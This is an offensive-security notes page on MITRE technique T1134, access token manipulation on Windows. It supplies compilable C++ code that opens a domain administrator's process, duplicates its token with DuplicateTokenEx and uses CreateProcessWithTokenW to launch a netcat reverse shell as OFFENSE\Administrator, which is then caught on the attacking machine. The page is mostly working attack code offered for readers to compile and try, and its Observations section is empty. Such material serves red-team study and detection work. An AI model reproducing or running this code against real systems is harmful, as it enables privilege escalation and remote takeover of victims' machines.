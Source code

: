 ```yaml
---
description: 'Defense Evasion, Privilege Escalation'
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is token impersonation. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved and duplicated and then used for creating a new process.

The high level process is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process which has the access token you want to steal. | `OpenProcessToken` |
| Make a duplicate token of the token in the process opened | `DuplicateTokenEx` |
| Create a new process with the newly aquired | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note te line 16 which specifies the executable that should be launched with an impersonted token, which in our case is a simple netcat reverse shell:

![](../.gitbook/assets/tokens-shell-c++.png)

And this is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching the tokens.exe from the powershell console spawns a reverse shell that the we catch on the attacking system. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token impersonation:

![](../.gitbook/assets/token-shell-impersonated.png)

## Observations

